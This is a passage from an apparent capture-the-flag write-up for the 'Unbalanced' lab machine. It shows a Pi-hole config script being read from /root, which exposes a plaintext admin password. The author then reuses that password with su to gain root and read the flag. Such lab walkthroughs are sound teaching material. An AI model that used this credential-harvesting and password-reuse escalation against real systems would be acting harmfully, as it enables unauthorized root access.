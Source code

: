 ```bash
drwxr-xr-x   1 root root 4.0K Sep 20  2019 sbin
drwxr-xr-x   2 root root 4.0K Sep 10  2019 srv
-rwxrwxr-x   1 root root 1.9K Sep 17  2019 start.sh
dr-xr-xr-x  13 root root    0 Dec  2 18:30 sys
drwxrwxrwt   1 root root 4.0K Dec  2 18:30 tmp
drwxrwxr-x   1 root root 4.0K Sep 20  2019 usr
drwxr-xr-x   1 root root 4.0K Sep 20  2019 var
```

Seems like we are able to read /root folder.

```bash
www-data@pihole:/$ ls root/
ph_install.sh
pihole_config.sh
www-data@pihole:/$ cat root/pihole_config.sh
#!/bin/bash

# Add domains to whitelist
/usr/local/bin/pihole -w unbalanced.htb
/usr/local/bin/pihole -w rebalanced.htb

# Set temperature unit to Celsius
/usr/local/bin/pihole -a -c

# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

# Set privacy level
/usr/local/bin/pihole -a -l 4

# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
```

Looking at the `pihole_config.sh` script, we get credentials `bUbBl3gUm$43v3Ry0n3!`.

#### Getting shell as root

Let us try the found credentials for root.

```bash
bryan@unbalanced:~$ su root
Password: bUbBl3gUm$43v3Ry0n3!
root@unbalanced:/home/bryan#
```

We successfully su to root and can read root.txt.

```bash
root@unbalanced:~# cat root.txt 
05caa***************************
```
